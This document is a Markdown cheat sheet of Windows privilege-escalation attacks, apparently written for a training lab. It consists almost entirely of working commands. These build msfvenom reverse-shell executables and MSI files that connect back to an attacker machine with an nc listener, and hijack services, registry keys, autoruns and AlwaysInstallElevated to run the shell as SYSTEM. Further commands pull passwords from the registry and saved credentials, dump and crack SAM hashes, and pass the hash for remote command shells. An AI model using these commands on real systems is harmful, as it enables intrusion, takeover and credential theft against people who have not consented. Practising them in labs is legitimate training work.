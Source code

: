 # attacking windows

### generating reverse shell

---

On kali:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f exe -o reverse.exe
```

```bash
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .
```

(this sets an SMB file share service on kali)

On windows:

```bash
copy \\10.10.10.10\kali\reverse.exe C:\PrivEsc\reverse.exe
```

(this uses SMB file sharing service to transfer files from Kali)

On kali:

```bash
sudo nc -nvlp 53
```

On windows:

```
C:\PrivEsc\reverse.exe
```

### insecure service permissions

---

Check user account perms on "daclsvc" service

```
accesschk.exe /accepteula -uwcqv user daclsvc
```

It has `SERVICE_CHANGE_CONFIG`, meaning that it has permissions to change the service config.

Check is service is running with SYSTEM privileges

```
sc qc daclsvc
```

Check `SERVICE_START_NAME` field and it says `LocalSystem`

Change binary path name:

```
sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\""
```

### unquoted service path

---

Query `unquotedsvc` service:

```
sc qc unquotedsvc
```

Check if it runs with SYSTEM privileges (SERVICE_START_NAME), also check if BINARY_PATH_NAME is unquoted and contains spaces

Check permissions for Unquoted Path Service:

```
C:\PrivEsc\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\" 
```

BUILTIN\Users group is allowed to write to the directory.

Copy exploit:

```
copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"
```

https://medium.com/@SumitVerma101/windows-privilege-escalation-part-1-unquoted-service-path-c7a011a8d8ae

Run service:

```
net start unquotedsvc
```

### weak registry perms

---

```
sc qc regsvc
```

```
C:\PrivEsc\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc
```

Check if registry service is writable by INTERACTIVE group (all logged-on users)

Overwrite ImagePath registry key to reverse.exe:

```
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f
```

### insecure service executables

---

check if service is running as system:

```
sc qc filepermsvc
```

then check if the BINARY_PATH_NAME is writeable:

```
accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermsservice.exe"
```

if it is, you can replace filepermsservice.exe with reverse.exe:

```
copy C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y
```

### autoruns

---

query registry for Autoruns:

```
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```

check if they are writable:

```
C:\PrivEsc\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"
```

replace program.exe with reverse.exe:

```
copy C:\PrivEsc\reverse.exe "C:\Program Files\Autorun Program\program.exe" /Y
```

### always install elevated

---

##### kali

check if keys are set to 0x1:

```
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

kali: generate a reverse shell with .msi file format:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f msi -o reverse.msi
```

transfer to windows, run this cmd:

```
msiexec /quiet /qn /i C:\PrivEsc\reverse.msi
```

##### covenant

Make sure that you have a medium-integrity grunt. 

Enumerate with `PowerUp.ps1` or `SharpUp audit`. Look for 1's on `HKLM` and `HKCU` under `AlwaysInstallElevated Registry Keys`:

Output on SharpUp:

```
=== AlwaysInstallElevated Registry Keys ===

	HKLM:	1
	HKCU: 	1
	
```

Output on PowerUp.ps1:

```
[*] Checking for AlwaysInstallElevated registry key...


AbuseFunction : Write-UserAddMSI

```

On Kali:

```bash
msfvenom -p windows/exec CMD="blahblahblah" -i msi -o file.msi
```

replace "blahblahblah" with shellcode

On Covenant:

```
upload /filepath:"C:\Users\Public\file.msi"

* select file *

ChangeDirectory C:\Users\Public
ls
```

```
shell msiexec /quiet /qn /i file.msi
```

### passwords in registry

---

```
reg query HKLM /f password /t REG_SZ /s
```

```
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"
```

use winexe to spawn cmd

```
winexe -U 'admin%password' //10.10.241.122 cmd.exe
```

### saved creds

---

List saved creds:

```
cmdkey /list
```

on Kali:

```
runas /savecred /user:admin C:\PrivEsc\reverse.exe
```

### SAM

---

copy SAM and SYSTEM files to kali.

```bash
git clone https://github.com/Tib3rius/creddump7
pip3 install pycrypto
python3 creddump7/pwdump.py SYSTEM SAM > hashes.txt
```

```
hashcat -m 1000 --force hashes.txt /usr/share/wordlists/rockyou.txt
```

### pass the hash

---

```bash
pth-winexe -U 'admin%aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da' //10.10.180.131 cmd.exe 
```

### autologons

---

On Covenant:

* Enumerate with `PowerUp.ps1` or `Seatbelt WindowsAutoLogon` to view Autologon credentials

